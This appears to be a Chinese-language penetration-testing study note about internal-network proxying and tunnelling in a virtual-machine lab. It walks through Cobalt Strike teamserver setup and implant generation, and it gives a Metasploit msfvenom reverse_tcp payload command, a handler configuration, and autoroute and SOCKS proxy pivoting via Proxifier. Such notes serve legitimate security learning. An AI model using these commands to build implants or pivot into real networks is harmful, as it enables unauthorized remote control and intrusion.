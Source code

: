 ```yaml
---
categories: [渗透测试]
tags: 代理 CobaltStrike msf 域渗透
---
```


# 2023.10.08

## 内网代理与隧道
参考视频：[内网代理+cs+msf](https://www.bilibili.com/video/BV1bG4y127FG/?spm_id_from=333.337.search-card.all.click&vd_source=6671d33bcf63c21d36edfa9a8e5b473e)
### 代理

解决不出网的问题，比如 A 主机在外网，B 主机在内网，这时就需要将 A 主机当作跳板去访问 B 主机。

#### 转发

端口转发，也是解决访问问题，只不过是将某一个端口转发到外网服务器上。

### 隧道

解决协议问题，比如禁用了 http 或者 tcp 协议，这时就只能使用 icmp 等一些底层协议。

> **_Question:_** 在内网渗透中，该如何选择代理方式及隧道方式？

---

### 正向马、反向马

#### 正向马（bind shell）

攻击端主动连接目标机，常用于**内网渗透**中

> **_Attention:_** 这种情况下，Kali 攻击机可以出网，但目标主机不能出网
> ![2023-10-09-11-24-07.png](https://s2.loli.net/2023/10/09/9V3HT7FCMDl4i15.png)

#### 反向马（reverse shell）

目标机主动连接攻击端，常用于目标主机在外网中，比如：一句话木马

> **_Attention:_** 这种情况下，目标机可以出网，但 kali 攻击机不能出网
> ![2023-10-09-11-26-01.png](https://s2.loli.net/2023/10/09/el4D9qRVBPAMyC1.png)

---

### Cobalt Strike 的部署及使用

hacker ----> 服务器（cs 部署在外网） ----> 受害机

```bash
# 服务器端
sudo ./teamserver '服务器IP' 'password'
# 客户端 kali linux
./start.sh # 弹出窗口后输入服务器ip地址，可修改端口，用户名，密码为服务器端启动时的password

# 客户端 windows
## 双击运行start.bat
```

### Cobalt Strike 生成 windows 木马，生成 linux 木马

> **_Note:_** 外网的环境暂时不会弄代理，现在暂时全部使用虚拟机测试使用 cs

#### Ubuntu 搭建 cs 服务端

```bash
# 更换镜像源（不知道为啥之前一直没换）
vi /etc/apt/sources.list

apt-get update
apt-get install openjdk-11-jdk

./teamserver '服务器ip' 'password'
```

<details> <summary>镜像源文件内容</summary>
<pre><code class="language-bash">
# 镜像源文件内容
# 默认注释了源码镜像以提高 apt update 速度，如有需要可自行取消注释
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-updates main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-updates main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-backports main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-backports main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-security main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-security main restricted universe multiverse
# 预发布软件源，不建议启用
# deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-proposed main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-proposed main restricted universe multiverse
</code></pre>
</details>

#### kali linux 搭建 cs 客户端

1. 输入服务端相关信息登入客户端界面
2. 使用下图的方式生成一个 exe 木马
   ![image.png](https://s2.loli.net/2023/10/09/9qzFV6jvOUkrIte.png)
3. 将木马复制到 windows 机器中，双击执行
4. 成功上线
   ![2023-10-09-16-12-26.png](https://s2.loli.net/2023/10/09/pIcQhf4CkJ5z98s.png)

#### CobaltStrike&SOCKS代理使用
> **_Note:_**为什么使用SOCKS代理？
>  
> 方便进行内网渗透，访问内网服务。

hacker ----> web机器 ----> 内网服务机器

##### Proxifier
Proxifier是一款全局代理客户端，它可以让应用程序通过代理服务器连接到互联网。

1. 在ubuntu开启cs服务端，kali开启cs客户端后，对win11会话进行代理转发，设置SOCKS4a代理，端口为29064。
2. 开启Proxifier客户端，新建一个SOCKS4a代理，服务器ip为ubuntu的ip地址，即10.211.55.5，端口为刚刚开启代理转发的端口，即29064。
3. 如果这个win11机器本身是不出网的，无法访问，那么没有设置proxifier规则的浏览器是无法访问这个机器的；但是如果添加了代理转发规则，这个浏览器就可以访问这个本来不出网的机器了。这是因为，proxifie将请求转发给了cs（10.211.55.5:29064）这个代理服务器，代理服务器将这个请求转发给了这台不出网机器，从而在这二者之间建立起了连接，不出网机器也可以将响应返回给客户端。

### Metasploit 生成 windows 正向反向木马，Linux 正向反向木马
#### msf生成反向x86马
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.137 LPORT=2323 -f exe > shell.exe

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp # 这里替换为生成使用的payload
set LHOST your-IP # msf所在机器的ip
set LPORT your-port # 连接的端口
exploit

show options # 查看配置

# 添加路由,在msf中添加路由的作用类似于cs中设置代理转发，作用是作为跳板代理出来
run post/multi/manage/autoroute
# 查看路由
arp -a
run autoroute -p
# 添加指定路由，1是接收的session编号
route add 192.168.11.0 255.255.255.0 1
# 挂起会话
background
# 查看路由表
route print

# 设置SOCKS代理
use auxiliary/server/socks_proxy
# 其他选项其实都不用改
set srvhost 0.0.0.0
set srvport 1115
run
```
#### Proxifier
在msf中设置SOCKS代理后，再次开启proxifier进行代理添加，与之前相同，填写msf所在机器的ip与相应的端口。再次尝试浏览器对这个ip地址进行访问。 

> **_Note:_**在proxifier中新建代理有两种情况：
> ![2023-10-10-15-56-24.png](https://s2.loli.net/2023/10/10/lrXyBu5aoFp1YEd.png)
> 1. 选择某一应用程序，则只有在使用此应用程序时会走代理
> 2. 在target host中写入192.168.58.*，则在所有应用程序访问这个网段时均可以走这个代理
